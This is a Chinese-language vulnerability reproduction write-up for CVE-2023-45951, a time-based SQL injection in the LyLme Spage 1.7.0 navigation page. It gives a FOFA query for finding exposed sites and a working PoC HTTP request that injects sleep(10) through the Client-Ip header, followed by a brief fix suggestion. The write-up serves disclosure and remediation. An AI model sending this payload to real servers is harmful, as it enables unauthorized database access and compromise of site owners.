


# 六零导航页SQL注入漏洞复现（CVE-2023-45951）

### 0x01 产品简介

   LyLme Spage（六零导航页）是中国六零（LyLme）开源的一个导航页面。致力于简洁高效无广告的上网导航和搜索入口，支持后台添加链接、自定义[搜索引擎](https://so.csdn.net/so/search?q=%E6%90%9C%E7%B4%A2%E5%BC%95%E6%93%8E&spm=1001.2101.3001.7020)，沉淀最具价值链接，全站无商业推广，简约而不简单。

### 0x02 漏洞概述

   LyLme Spage v1.7.0版本存在[安全漏洞](https://so.csdn.net/so/search?q=%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞源于通过function.php的$userip参数发现包含 SQL 注入漏洞，未经授权的攻击者可通过该漏洞获取敏感信息,进一步利用可造成主机失陷。

### 0x03 影响范围

LyLme Spage 1.7.0

### 0x04 复现环境

FOFA：title=="上网导航 - LyLme Spage"



### 0x05 漏洞复现

PoC

```cobol
POST /apply/index.php?submit=post HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Client-Ip: 0'>if(1,sleep(10),2)>'

url=http%3A%2F%2Fbaidu.com&name=test&group_id=1&icon=&authcode=
```

延时10秒 



PS：漏洞存在于 HTTP Header 的 `Client-Ip` 字段，请求体中url字段值每请求一次就需要更换一次，不然无法成功

### 0x06 修复建议 

 在get\_real\_ip 中检查验证IP合法性，[防止SQL注入](https://so.csdn.net/so/search?q=%E9%98%B2%E6%AD%A2SQL%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)
